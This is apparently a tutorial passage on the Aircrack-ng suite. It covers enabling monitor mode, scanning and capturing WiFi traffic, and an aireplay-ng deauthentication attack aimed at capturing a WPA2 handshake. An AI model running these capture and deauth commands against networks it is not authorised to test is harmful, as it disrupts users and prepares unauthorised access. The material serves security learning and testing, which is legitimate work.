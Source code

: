 **Aircrack-ng Suite:**

The industry-standard WiFi security tools.

**1. Airmon-ng (Enable monitor mode)**

```bash
# Check for interfering processes
sudo airmon-ng check

# Kill interfering processes
sudo airmon-ng check kill

# Enable monitor mode
sudo airmon-ng start wlan0
# Creates wlan0mon interface

# Verify monitor mode
iwconfig wlan0mon
```

**2. Airodump-ng (Capture packets)**

```bash
# Scan all channels
sudo airodump-ng wlan0mon

# Focus on specific channel
sudo airodump-ng -c 6 wlan0mon

# Capture to file
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

**Understanding airodump output:**

```
BSSID              PWR  CH  ENC  ESSID
AA:BB:CC:DD:EE:FF  -50   6  WPA2 HomeNetwork
11:22:33:44:55:66  -70  11  WPA2 OfficeWiFi
```

- **BSSID:** MAC address of access point
- **PWR:** Signal strength
- **CH:** Channel number
- **ENC:** Encryption type
- **ESSID:** Network name

**3. Aireplay-ng (Inject packets)**

```bash
# Deauthentication attack (capture handshake)
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# -a: Access point MAC
# 10: Number of deauth packets
```
